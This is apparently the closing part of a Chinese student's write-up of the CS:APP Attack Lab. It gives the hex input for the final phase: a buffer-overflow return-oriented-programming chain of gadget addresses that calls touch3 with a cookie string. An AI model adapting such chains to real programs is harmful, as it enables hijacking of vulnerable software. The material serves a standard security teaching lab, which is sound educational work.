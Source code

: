 cookie

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00// movq %rsp,%rax
d8 19 40 00 00 00 00 00// add $0x37,al
c5 19 40 00 00 00 00 00// movq %rax,%rdi
fa 18 40 00 00 00 00 00//touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 35//cookie
39 62 39 39 37 66 61 00
```

然后完结撒花啦！！

第一次能自己写完csapp的lab，虽然难，但是收获颇丰，若有不正，恳请指正！！

